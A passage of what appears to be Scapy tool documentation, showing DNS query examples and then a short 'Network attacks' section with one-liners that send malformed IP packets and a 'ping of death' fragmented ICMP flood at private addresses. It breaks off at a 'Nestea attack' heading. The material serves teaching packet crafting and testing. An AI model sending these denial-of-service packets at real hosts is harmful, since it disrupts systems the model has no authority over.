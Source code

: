 

<b><i>DNS Requests</i></b>

IPv4 (A) request:
**IPv4 (A) request:
**
This will perform a DNS request looking for IPv4 addresses

```
>>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="A")))
>>> ans.an.rdata
'217.25.178.5'
```
<b><i>SOA request:</i></b>

```
>>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="secdev.org",qtype="SOA")))
>>> ans.ns.mname
b'dns.ovh.net.'
>>> ans.ns.rname
b'tech.ovh.net.'
```
<b><i>MX request:</i></b>

```
>>> ans = sr1(IP(dst="8.8.8.8")/UDP(sport=RandShort(), dport=53)/DNS(rd=1,qd=DNSQR(qname="google.com",qtype="MX")))
>>> results = [x.exchange for x in ans.an.iterpayloads()]
>>> results
[b'alt1.aspmx.l.google.com.',
 b'alt4.aspmx.l.google.com.',
 b'aspmx.l.google.com.',
 b'alt2.aspmx.l.google.com.',
 b'alt3.aspmx.l.google.com.']
```

**Network attacks**

<b><i>Malformed packets</i></b>

```
>>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())                                                                                                                  . Sent 1 packets. >>>
```

<b><i>Ping of death (Muuahahah):</i></b>

```
>>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )                                                                                                           
.........................................
Sent 41 packets.
>>>
```
<b><i>Nestea attack:</i></b>
